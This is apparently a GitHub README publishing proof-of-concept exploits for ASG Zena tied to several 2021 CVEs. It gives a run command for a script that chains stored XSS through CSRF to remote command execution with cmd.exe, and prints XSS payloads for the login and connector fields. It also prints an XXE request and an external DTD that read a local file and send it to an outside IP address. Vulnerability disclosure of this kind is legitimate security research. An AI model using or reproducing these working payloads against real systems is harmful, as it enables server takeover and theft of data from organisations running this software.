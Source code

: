 # Zena
## Proof of Concept code for XSS to CSRF to Remote Code Execution exploit for asg-zena
CVE-2021-45025 Cleartext Storage of Sensitive Information in a Cookie
CVE-2021-45026 Stored Cross Site Scripting (XSS)
Authors: James Barnett and Jeffrey Green
**To Run:**
- python CookieMonster.py <hostname/ip> <TLS/SSL - True or False> <cmd.exe command>
  - **Example: python3 CookieMonster.py 127.0.0.1 False "/c whoami > c:/out.txt"**


Basic payload and details and injection points

Zena – ClientManager:
XSS(Cross-Site Scripting):
• Type: Stored XSS – Unauthenticated
• Pages Affected: /zena/index.html
• Description: User input field(and probably more fields) on the Zena ClientManager login page allow for
an attacker to submit specially crafted javascript payloads that are persistently stored and executed
when a user on the Zena system navigates to Client Manager logs and shows details for the log.
POC code – placed into the username field on the login page: 

```</li><img/src='fail'/onerror=alert("vulnerable")></img>```

XSS(Cross-Site Scripting):
• Type: Stored XSS
• Pages Affected: /webconfig/index.html requires authentication. the webconfig page has a hardcoded default password.
• Description: Certain input fields in the connector creation allow for an attacker to submit specially
crafted arbitrary javascript payloads that are persistently stored and executed when loading the page
POC code - placed into the Name input field:

```</li><img/src='fail'/onerror=alert("vulnerable")></img>```


![image](https://user-images.githubusercontent.com/81385287/171973915-0ff4e8b4-2d39-4558-a794-a7dae6e4935d.png)
![image](https://user-images.githubusercontent.com/81385287/171973946-9073ad46-e200-437a-80f8-5f11669b462a.png)
![image](https://user-images.githubusercontent.com/81385287/171973970-c2f7eefe-4cfe-4a64-ad27-4691324c1952.png)

## Proof of Concept code for XXE to SSRF to Data Exfiltration exploit for asg-zena
CVE-2021-45024
CVE-2021-45022 SSRF
Authors: James Barnett and Jeffrey Green

XXE(XML External Entity) (CWE-611):
• Type: SSRF and Exfiltration
• Pages Affected: /zena.index.html
• Endpoints Affected: oc_main/zenaweb/scheduler/operation
• Description: Several of the ClientManager’s import functions can be abused by manipulating the
XML import data to contain external entity values that can induce the server to perform certain
functions it was not intended to do. Ex. Reading a local file and exfiltrating it over an HTTP
request back to the attacker
Poc code - Request body to zena server:

```

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://52.15.202.214:8080/xxe.dtd">
%sp;
%param1;
%exfil;
]>
<PACKAGE CREATED="2022.02.15 21.49.34" EXCLUDE_PASSWORDS="NO" INCLUDE_AGENT_REFS="NO"
INCLUDE_DEF_REFS="NO" TYPE="4" UID="E311C8FC7118"><ITEMS><ITEM LIST_TYPE="4"
MODIFIED="2022.02.15 21.22.30" NAME="research" UID="A2A9235502DE"/></ITEMS><USERS><USER
MODIFIED="2022.02.15 21.22.30" NAME="research" REFERENCE="NO"
UID="A2A9235502DE"><![CDATA[<USER NAME="research"
PASSWORD="3jkY15nHscTNeexdKq+gVqiMsh1ngexPj4of7xliF3uDjnkTkJw7qq78ruSMvOGat"
UID="A2A9235502DE" LOGIN="research" DOMAIN="EC2AMAZ-57EH5UL" ALLRIGHTS="YES"
ALLAGENTS="YES"><DESCRIPTION></DESCRIPTION><ROLES/></USER>]]></USER></USERS></PACKAGE>
```



External DTD code hosted on attacker server as xxe.dtd:

```

<!ENTITY % data SYSTEM "file:///c:/sensative.txt">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://52.15.202.214:8080/?%data;'>">

```

![image](https://user-images.githubusercontent.com/81385287/171972899-f595ccbc-f45b-4368-8944-f470960ebad9.png)



